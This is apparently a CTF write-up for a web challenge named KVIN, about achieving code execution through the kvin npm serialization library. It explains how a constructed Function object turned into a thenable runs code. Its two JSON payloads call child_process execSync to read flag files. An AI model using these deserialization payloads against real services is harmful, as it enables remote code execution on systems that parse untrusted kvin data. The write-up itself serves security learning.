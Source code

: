 # KVIN

* Round: 31 (2023/02)
* Category: Web/Misc
* Points: 125
* Solves: 9

## Description

Tried to make [KVIN](https://www.npmjs.com/package/kvin) a bit safer to use, can you help me test it?

## Solution

In `unprepare$object` function you can use `po.ctr === 15` to construct a `Function` object, and make it a `Thenable` object like `{ then: [Function: anonymous] }`. When the thenable is returned into the Promise chain and `then` will be executed, so you get a code execution!

```json
{"_serializeVerId":"v8","what":{"ctr":0,"ps":{"then":{"ctr":15,"args":["resolve","resolve(process.mainModule.require('child_process').execSync('cat f*').toString())"]}}}}
```

This challenge is solvable too even if there is no promise chain in `index.js`. The trick is to use the [`resolve` feature](https://github.com/wesgarland/kvin/blob/8840d541f61040931229baa7028f911b816893eb/kvin.js#L288-L293) to make it pass user-controlled object into `Promise.resolve`:

```json
{"_serializeVerId":"v8","what":{"resolve":{"_serializeVerId":"v8","what":{"ctr":0,"ps":{"then":{"ctr":15,"args":["resolve","resolve(process.mainModule.require('child_process').execSync('cat f*').toString())"]}}}}}}
```

Similar challenges:

* Google CTF 2022 - HORKOS
* TSG CTF 2021 - Beginner's Web 2021
